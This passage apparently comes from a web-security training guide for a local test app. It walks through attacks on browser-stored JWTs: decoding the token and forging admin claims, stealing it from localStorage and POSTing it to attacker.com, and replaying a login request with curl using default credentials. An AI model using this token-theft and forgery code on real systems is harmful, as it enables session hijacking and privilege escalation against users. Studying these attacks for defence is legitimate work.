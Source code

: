 #### Attack 2: Token Manipulation

```javascript
// Open console
const token = localStorage.getItem('token');

// Decode token
const parts = token.split('.');
const payload = JSON.parse(atob(parts[1]));

// Modify payload (won't work with signature verification)
payload.role = 'admin';
payload.userId = 1;

// Re-encode (will fail signature check unless secret is known)
const newPayload = btoa(JSON.stringify(payload));
const newToken = parts[0] + '.' + newPayload + '.' + parts[2];

// Try to use modified token
localStorage.setItem('token', newToken);
location.reload();
```

#### Attack 3: Session Persistence

```javascript
// Steal token and persist it
const token = localStorage.getItem('token');

// Save to attacker's server
fetch('https://attacker.com/save-token', {
    method: 'POST',
    body: JSON.stringify({ token: token })
});

// Or copy to clipboard
navigator.clipboard.writeText(token);
alert('Token copied! Send it to yourself.');
```

---

## Browser Developer Tools Exploitation

### 🔓 Exploitation Techniques

#### Attack 1: Network Tab - Intercept Requests

```javascript
// 1. Open DevTools (F12) → Network tab
// 2. Perform actions (login, upload, etc.)
// 3. Right-click request → Copy as cURL
// 4. Modify and replay

// Example: Replay login with different credentials
curl 'http://localhost:3000/wcorp/api/login' \
  -H 'Content-Type: application/json' \
  --data-raw '{"username":"admin","password":"admin123"}'
```
